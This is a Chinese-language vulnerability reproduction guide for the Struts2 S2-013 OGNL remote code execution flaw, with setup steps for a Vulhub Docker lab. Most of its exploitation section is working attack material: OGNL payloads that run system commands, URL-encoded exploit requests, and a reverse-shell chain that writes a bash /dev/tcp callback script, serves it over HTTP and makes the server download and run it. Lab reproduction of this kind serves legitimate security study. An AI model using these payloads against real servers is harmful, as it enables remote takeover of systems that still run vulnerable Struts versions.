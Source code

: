 # Struts2 S2-013 远程代码执行漏洞

## 漏洞描述

Struts2 标签中 `<s:a>` 和 `<s:url>` 都包含一个 includeParams 属性，其值可设置为 none，get 或 all，参考官方其对应意义如下：

1. none - 链接不包含请求的任意参数值（默认）
2. get - 链接只包含 GET 请求中的参数和其值
3. all - 链接包含 GET 和 POST 所有参数和其值

`<s:a>`用来显示一个超链接，当`includeParams=all`的时候，会将本次请求的GET和POST参数都放在URL的GET参数上。在放置参数的过程中会将参数进行OGNL渲染，造成任意命令执行漏洞。

漏洞详情:

- http://struts.apache.org/docs/s2-013.html
- http://struts.apache.org/docs/s2-014.html

## 漏洞影响

影响版本: 2.0.0 - 2.3.14.1

## 环境搭建

Vulhub执行以下命令启动s2-013测试环境：

```
docker-compose build
docker-compose up -d
```

访问`http://your-vps-ip:8080/index.jsp`即可进入上传表单页面。

## 漏洞复现

任意命令执行POC：

```
${(#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('id').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[50000],#c.read(#d),#out=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#out.println(#d),#out.close())}

// 或

${#_memberAccess["allowStaticMethodAccess"]=true,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())}
```

例如：

```
http://your-vps-ip:8080/link.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec('id').getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println('dbapp%3D'%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D
```

成功执行命令`id`：

![image-20220301174558051](images/202203011745146.png)

### 反弹shell

编写shell脚本并启动http服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传shell.sh文件的命令为：

```
wget 192.168.174.128/shell.sh
```

上传shell.sh文件的Payload为：

```
GET /link.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%27wget%20192.168.174.128/shell.sh%27).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println(%27dbapp%3D%27%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D HTTP/1.1
```

执行shell.sh文件的命令为：

```
bash /usr/local/tomcat/shell.sh
```

执行shell.sh文件的Payload为：

```
GET /link.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%27bash%20/usr/local/tomcat/shell.sh%27).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println(%27dbapp%3D%27%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D HTTP/1.1
```

成功接收反弹shell：

![image-20220301174700233](images/202203011747317.png)